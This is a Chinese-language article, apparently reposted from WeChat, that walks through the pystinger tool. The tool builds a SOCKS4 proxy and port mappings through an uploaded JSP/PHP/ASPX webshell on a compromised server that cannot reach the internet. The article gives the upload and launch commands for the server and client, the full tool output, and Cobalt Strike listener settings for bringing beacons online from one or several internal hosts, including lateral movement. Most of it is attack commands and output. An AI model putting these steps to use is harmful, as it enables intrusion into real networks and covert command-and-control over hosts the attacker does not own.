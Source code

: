 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/abWx9Vet0qGjvSF7AmYlTQ)

        pystinger 通过 webshell 实现内网 SOCK4 代理, 端口映射，可直接用于 metasploit-framework,viper,cobalt strike 上线。

        主体使用 python 开发, 当前支持 php,jsp(x),aspx 三种代理脚本。

>      假设不出网服务器域名为 http://example.com:8080 , 服务器内网 IP 地址为 192.168.3.11

1 . SOCK4 代理
------------

*   proxy.jsp 上传到目标服务器, 确保 http://example.com:8080/proxy.jsp 可以访问, 页面返回 `UTF-8`
    
*   将 stinger_server.exe 上传到目标服务器, 蚁剑 / 冰蝎执行`start D:/XXX/stinger_server.exe`启动服务端
    

> 不要直接运行 D:/XXX/stinger_server.exe, 会导致 tcp 断连

*   vps 执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
    
*   如下输出表示成功
    

```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

*   此时已经在 vps`127.0.0.1:60000`启动了一个`example.com`所在内网的 socks4a 代理
    
*   此时已经将目标服务器的`127.0.0.1:60020`映射到 vps 的`127.0.0.1:60020`
    

2 . cobalt strike 单主机上线
-----------------------

*   proxy.jsp 上传到目标服务器, 确保 http://example.com:8080/proxy.jsp 可以访问, 页面返回 `UTF-8`
    
*   将 stinger_server.exe 上传到目标服务器, 蚁剑 / 冰蝎执行`start D:/XXX/stinger_server.exe`启动服务端
    

> 不要直接运行 D:/XXX/stinger_server.exe, 会导致 tcp 断连

*   stinger_client 命令行执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
    
*   如下输出表示成功
    

```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

*   cobalt strike 添加监听, 端口选择输出信息 RAT Config 中的 Handler/LISTEN 中的端口 (通常为 60020),beacons 为 127.0.0.1
    
*   生成 payload, 上传到主机运行后即可上线
    

3 . cobalt strike 多主机上线
-----------------------

*   proxy.jsp 上传到目标服务器, 确保 http://example.com:8080/proxy.jsp 可以访问, 页面返回 `UTF-8`
    
*   将 stinger_server.exe 上传到目标服务器, 蚁剑 / 冰蝎执行`start D:/XXX/stinger_server.exe 192.168.3.11`启动服务端
    

> 192.168.3.11 可以改成 0.0.0.0

*   stinger_client 命令行执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
    
*   如下输出表示成功
    

```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

*   cobalt strike 添加监听, 端口选择 RAT Config 中的 Handler/LISTEN 中的端口 (通常为 60020),beacons 为 192.168.3.11(example.com 的内网 IP 地址)
    
*   生成 payload, 上传到主机运行后即可上线
    
*   横向移动到其他主机时可以将 payload 指向 192.168.3.11:60020 即可实现出网上线
    

4 . 定制 Header 及 proxy
---------------------

*   如果 webshell 需要配置 Cookie 或者 Authorization, 可通过 --header 参数配置请求头
    

`--header "Authorization: XXXXXX,Cookie: XXXXX"`

*   如果 webshell 需要通过代理访问, 可通过 --proxy 设置代理
    

`--proxy "socks5:127.0.0.1:1081"`

stinger_server\stinger_client
-----------------------------

*   windows
    
*   linux
    

proxy.jsp(x)/php/aspx

*   php7.2
    
*   tomcat7.0
    
*   iis8.0
    

项目地址：  

https://github.com/FunnyWolf/pystinger/releases/tag/v1.6